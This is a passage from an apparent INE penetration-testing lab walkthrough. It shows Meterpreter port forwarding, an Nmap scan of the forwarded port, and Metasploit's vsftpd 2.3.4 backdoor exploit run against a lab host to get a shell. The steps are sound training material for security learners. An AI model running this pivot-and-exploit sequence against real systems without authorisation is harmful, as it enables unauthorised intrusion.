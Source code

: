 ![](../media/Blackbox%20lab%20INE_19.png)

Forwarding the remote port to local port

Command

portfwd add -l 1234 -p 21 -r 192.69.228.3

portfwd list

-lLocal port

-pRemote port

-rRemote host

![](../media/Blackbox%20lab%20INE_20.png)

We have successfully forwarded the port. Now, scan the local port using Nmap.

Step 15: Running nmap on the forwarded local port to identify the service name.

Command

background

nmap -sS -sV -p 1234 localhost

![](../media/Blackbox%20lab%20INE_21.png)

We can observe from the results that host is running vsftpd (FTP) service.

Note: Sometimes scan can take a little bit longer than expected. Please be patient.

Step 16: Search for vsftpd exploit module

Command

search vsftpd

![](../media/Blackbox%20lab%20INE_22.png)

There is an exploit for vsftpd service in the Metasploit framework.

Step 17: Exploit the target host using vsftpd backdoor exploit module.

Command

use exploit/unix/ftp/vsftpd_234_backdoor

set RHOSTS 192.69.228.3

exploit

id

![](../media/Blackbox%20lab%20INE_23.png)

Note: Sometimes, the exploit fails the first time. If that happens then please run the exploit again.

Command
